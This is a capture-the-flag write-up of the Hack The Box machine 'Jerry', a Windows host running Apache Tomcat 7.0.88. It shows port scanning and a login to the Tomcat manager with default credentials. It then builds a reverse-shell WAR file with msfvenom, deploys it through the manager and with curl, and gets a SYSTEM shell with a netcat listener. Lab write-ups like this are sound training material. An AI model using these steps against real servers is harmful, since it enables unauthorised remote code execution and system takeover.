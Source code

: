 ## Default Information
IP Address: 10.10.10.95\
OS: Windows

## Discovery

Before we start, let's first add the IP address and the host to our ```/etc/hosts``` file.

```
10.10.10.95    jerry.htb
```
### Masscan
Firstly, we will use masscan to identify the open ports

```
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo masscan -p1-65535,U:1-65535 10.10.10.95 --rate=1000 -e tun0 
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2022-01-12 05:56:07 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 8080/tcp on 10.10.10.95  
```

### Nmap
We will then use the open ports obtained from masscan to run a scan using nmap to enumerate the services operating behind each port

| Port Number | Service | Version | State |
|-----|------------------|----------------------|----------------------|
| 8080	| http | Apache Tomcat/Coyote JSP engine 1.1 | Open |

### Gobuster
We will then use Gobuster to find the endpoints that are accessible from http://jerry.htb:8080.

```
http://10.10.10.95:8080/aux                  (Status: 200) [Size: 0]
http://10.10.10.95:8080/com4                 (Status: 200) [Size: 0]
http://10.10.10.95:8080/com2                 (Status: 200) [Size: 0]
http://10.10.10.95:8080/com1                 (Status: 200) [Size: 0]
http://10.10.10.95:8080/com3                 (Status: 200) [Size: 0]
http://10.10.10.95:8080/con                  (Status: 200) [Size: 0]
http://10.10.10.95:8080/docs                 (Status: 302) [Size: 0] [--> /docs/]
http://10.10.10.95:8080/examples             (Status: 302) [Size: 0] [--> /examples/]
http://10.10.10.95:8080/favicon.ico          (Status: 200) [Size: 21630]
http://10.10.10.95:8080/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
http://10.10.10.95:8080/index.jsp            (Status: 200) [Size: 11398]
http://10.10.10.95:8080/manager              (Status: 302) [Size: 0] [--> /manager/]
http://10.10.10.95:8080/RELEASE-NOTES.txt    (Status: 200) [Size: 9600]
```

### Web-content discovery

Navigating to http://jerry.htb/RELEASE-NOTES.txt, we are able to find that we are using Apache Tomcat Version 7.0.88.
![Apache Tomcat Version](https://github.com/joelczk/writeups/blob/main/HTB/Images/Jerry/version.png)

Navigating to both http://jerry.htb/manager and http://jerry.htb/host-manager, we realize both pages require authentication.

Failing the authentication will bring us to an error page, which displays the default credentials on the website.

![Error Page](https://github.com/joelczk/writeups/blob/main/HTB/Images/Jerry/error_page.png)

## Exploit
### Logging into manager interface
Using the default credentials ```tomcat:s3cret``` that we have obtained earlier, we are able to authenticate into http://jerry.htb:8080/manager. However, we are still unable to authenticate into http://jerry.htb:8080/host-manager.

### Uploading malicious war file

Looking at http://jerry.htb:8080/manager, we realize that we are able to upload a malicious war file that can spawn a reverse shell. 

![Uploading war file](https://github.com/joelczk/writeups/blob/main/HTB/Images/Jerry/upload_war_file.png)

Next, let us use msfvenom to generate a malicious war file that will create a reverse connection to our local listener.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ msfvenom -p java/shell_reverse_tcp -f war LHOST=10.10.16.8 LPORT=80 > reverse.war
Payload size: 13314 bytes
Final size of war file: 13314 bytes
```

Afterwards, we will have to upload the war file onto the Apache Tomcat webserver. Next, we will go to http://jerry.htb/manager/text/list to check if the payload has been successfully uploaded.

![Uploaded payload](https://github.com/joelczk/writeups/blob/main/HTB/Images/Jerry/payload_uploaded.png)

### Obtaining reverse shell
Lastly, all we have to do is to navigate to http://jerry.htb:8080/reverse to start the reverse connection to our local listener.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 80
listening on [any] 80 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.10.95] 49194
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

### Obtaining user and root flag

Executing the ```whoami``` command, we can see that we are already granted root privileges. Hence, there is no more need for futhur privilege escalation. 

Viewing the file ```2 for the price of 1.txt```, we are able to obtain both the user and the root flag.

```
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
<Redacted user flag>

root.txt
<Redacted root flag>
```

## Post_Exploitation
### Alternative way of RCE on Apache Tomcat

Another alternative way of uploading the exploit war file to the target server will be using the curl command. We can use the curl command to upload the exploit war file to the target server, with the credentials that we have obtained earlier. 

In the command below, we are uploading the exploit war file in the /exploit path.
```
┌──(kali㉿kali)-[~/Desktop]
└─$ curl --upload-file exploit.war -u 'tomcat:s3cret' "http://jerry.htb:8080/manager/text/deploy?path=/exploit"
OK - Deployed application at context path /exploit
```

Visiting http://jerry.htb:8080/exploit on the browser will then trigger the exploit and a reverse connection to the local listener will then be created.

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 80  
listening on [any] 80 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.10.95] 49195
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```
